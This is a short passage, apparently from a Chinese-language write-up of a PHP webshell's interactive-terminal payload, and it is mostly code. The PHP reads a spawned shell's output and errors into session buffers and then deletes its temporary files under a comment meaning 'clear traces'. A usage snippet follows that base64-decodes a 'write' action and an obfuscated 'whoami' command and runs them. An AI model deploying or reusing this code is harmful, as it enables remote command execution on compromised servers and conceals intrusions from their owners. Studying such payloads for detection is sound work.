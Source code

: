```php
        }
        while (($output = fread($reader, 10240)) != false) {
            // 对输出内容做转义 输出utf-8
            if (!function_exists("mb_convert_encoding")){
                   $output=getSafeStr($output);
            }else{
            	$output=mb_convert_encoding($output, 'UTF-8', mb_detect_encoding($output, "UTF-8,GBK"));
            }
            @session_start();
            $_SESSION["readBuffer"] = $_SESSION["readBuffer"] . $output;    // 此处readBuffer为空 直接写入output
            session_write_close();
        }
        if ($win){
            ftruncate($reader, 0);  // 清空outputfile
        }
        while (($errput = fread($error, 10240)) != false) {
            // 对标准错误同上处理
            if (!function_exists("mb_convert_encoding")){
                $errput=getSafeStr($errput);
            }else{
                $errput=mb_convert_encoding($errput, 'UTF-8', mb_detect_encoding($errput, "UTF-8,GBK"));
            }
            @session_start();
            $_SESSION["writeBuffer"]="";
            $_SESSION["readBuffer"] = $_SESSION["readBuffer"] . $errput;
            session_write_close();
        }
        if ($win){
            ftruncate($error, 0);   // 清空errorfile
        }
        sleep(0.8);
    }
    fclose($reader);    // 关闭两个句柄
    fclose($error);
    unset($_SESSION["readBuffer"]); // 清除痕迹
    if ($win){
        unlink($outputfile);
        unlink($errorfile);
    }
}
```

write写入执行命令（以whoami为例）

```php
$type="d3JpdGU=";
$type=base64_decode($type);
$bashPath="";
$bashPath=base64_decode($bashPath);
$cmd="ZDJodllXMXBEUW89";
$cmd=base64_decode($cmd);
$whatever="";

main($type,$bashPath,$cmd,$whatever);
```
